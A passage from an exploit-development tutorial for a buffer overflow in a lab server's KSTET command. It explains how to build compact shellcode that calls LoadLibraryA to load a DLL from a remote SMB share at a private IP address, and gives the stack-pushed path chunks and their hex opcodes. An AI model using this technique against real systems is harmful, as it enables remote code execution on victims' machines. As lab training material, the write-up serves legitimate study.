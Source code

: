 ![successful landing](/images/intothebufferwego.png)

The first instructions we encounter are the 'KSTET ' command, including the space. Lucky for us these are not detrimental to our execution and we can easily step through until we reach our buffer of `A`'s. It looks like we have about 66 bytes for our shellcode. This is plenty for socket re-use, which can be done in about half that, but it's also plenty for our LoadLibraryA call. 
In order to perform our LoadLibraryA call, we'll need to get the following values onto the stack:
`\\192.168.0.11\s\s.dll`. In this case, to save space, I opted for the smallest possible string length to keep our shellcode to a minimum (more on that later). This is why I chose a one-character folder name and the smallest dll name. If we want to quickly convert this string into opcodes to push onto the stack, we have to first split it into groups of 4 characters:
```
\\19
2.16
8.0.
11\s
\s.d
ll  
```
This does not even out nicely so we've padded the ending with two spaces. It's important to note that the string needs to end with a null byte terminator. Looking at our registers when we land in the buffer, we notice that both ESI and EDI are null, so we'll use a `PUSH ESI` instruction to terminate the string. 
Next, we'll push these blocks of 4 bytes in reverse order onto the stack:
```
ll  
\s.d
11\s
8.0.
2.16
\\19
```
Using an ASCII to Hex converter, this results in the following:
```
6c6c2020
5c732e64
31315c73
382e302e
322e3136
5c5c3139
```